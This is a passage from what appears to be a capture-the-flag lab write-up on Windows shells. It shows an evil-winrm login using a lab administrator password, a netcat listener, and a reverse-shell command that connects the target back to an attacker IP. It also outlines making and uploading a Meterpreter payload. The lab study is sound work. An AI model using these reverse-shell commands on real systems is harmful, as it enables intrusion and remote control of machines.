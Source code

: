 			![task13-win-nc-bind](./images/task13-win-nc-bind.png)

	* Reverse shell

		* Step 1 login to target machine = `evil-winrm -i $IP -u Administrator -p 'TryH4ckM3!'`
		* Step 2 on our machine = `rlwrap nc -lvnp 9999`
		* Step 3 on target machine = `nc 10.13.52.88 9999 -e “cmd.exe”`

		![task13-win-nc-reverse](./images/task13-win-nc-reverse.png)


* Create a 64bit Windows Meterpreter shell using msfvenom and upload it to the Windows Target. Activate the shell and catch it with multi/handler. Experiment with the features of this shell.

	* Create a 64 bit Windows Meterpreter shell

		![task13-win-create-meterpreter](./images/task13-win-create-meterpreter.png)

	* Upload file shell.exe via browser
